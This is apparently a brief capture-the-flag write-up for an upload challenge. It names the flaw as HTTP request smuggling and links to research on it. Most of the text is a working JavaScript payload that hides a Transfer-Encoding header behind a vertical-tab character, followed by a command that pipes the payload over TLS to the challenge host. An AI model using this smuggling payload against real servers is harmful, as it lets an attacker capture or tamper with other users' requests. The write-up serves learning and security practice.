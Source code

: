 This was an HTTP desync attack / request smuggling attack

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
https://nathandavison.com/blog/haproxy-http-request-smuggling

```javascript
p2 = `POST /files/ HTTP/1.1\r
x-guid: 9d0eac94-33f6-47b5-85ed-dbed297cfa13\r
content-type: text/plain\r
Content-Length: 150\r
\r
1`

p1 = `POST /files/ HTTP/1.1\r
x-guid: 9d0eac94-33f6-47b5-85ed-dbed297cfa11\r
content-type: text/plain\r
Transfer-Encoding: \u000bchunked\r
Content-Length: ${p2.length + 4}\r
\r
0\r
\r
`
t
process.stdout.write(p1 + p2)
```

node script | openssl s_client -connect uploooadit.oooverflow.io:443 -quiet
